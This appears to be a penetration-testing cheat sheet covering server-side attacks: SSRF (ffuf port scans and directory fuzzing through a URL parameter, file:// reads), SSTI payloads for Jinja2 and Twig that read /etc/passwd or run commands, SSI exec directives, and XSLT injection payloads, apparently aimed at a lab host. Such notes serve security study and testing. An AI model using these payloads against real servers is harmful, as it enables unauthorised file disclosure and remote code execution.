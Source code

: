 ```yaml
---
description: From SSRF, SSTI to SSI injections.
---
```


# Server Side Attacks

### <mark style="color:yellow;">Server-side Request Forgery or SSRF</mark>

If a server retrieves resources based on user input like an url it can lead to the server making unintended requests.  Several URL schemes can be used:

* `http://` and `https://`: Fetches content via `http/s` requests leading to acces to internal network.
* `file://`  Used to read local files on web server
* `gopher://` Send http posts requests with payloads databases or email.

Look for parameters that passes URL's and try changing those own listener or internal network like `http://127.0.0.1/index.php`.

#### Port scan

Based on differences of response of a request we can conduct a port scan.&#x20;

```bash
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-02" -fr "Failed to connect to"
```

#### Brute force directories

Look at data in the request `-d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01"` . Fuzzing .php pages.

```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

#### Local File Inclusion (LFI)

In the data payload use file:// `-d "dateserver=file:///etc/passwd&date=2024-01-01"`&#x20;

#### Blind SSRF

If we cannot see the response and there is a SSRF vulnerbality its called a bilnd SSRF vulnerability.  Netcat listener can confirm for a vuln.

### <mark style="color:yellow;">Server-side Template Injection or SSTI</mark>

SSTI occurs when user input is inserted into the **template itself** before rendering, allowing code execution.

Like with SQL we can identify vulnerabilities using:&#x20;

```
{{7*7}}
{{7*'7'}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

#### Find payloads: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)

#### Local File Inclusion (LFI) Jinja2

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

#### Remote Code Executino (RCE) Jinja2

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

#### Local File Inclusion (LFI) Twig

```jinja2
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

#### Remote Code Executino (RCE) Twig

```jinja2
{{ ['id'] | filter('system') }}
```

### <mark style="color:yellow;">SSI Injection</mark>

Server-Side Includes (SSI) is used by webapps to create dynamic content on HTML pages. The use of SSI can be found if files are used:

* `.shtml`
* `.shtm`
* `.stm`&#x20;

SSI uses directives consisting of:

* `name`: the directive's name
* `parameter name`: one or more parameters
* `value`: one or more parameter values

Several payloads

```ssi
<!--#printenv -->
<!--#name param1="value1" param2="value" -->
<!--#exec cmd="whoami" -->
```

### <mark style="color:yellow;">XSLT Injection</mark>

eXtensible Stylesheet Language Transformation (XSLT) can select specific nodes from an XML document and change the XML structure.

```xml
# LFI
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />

# RCE
<xsl:value-of select="php:function('system','id')" />
```


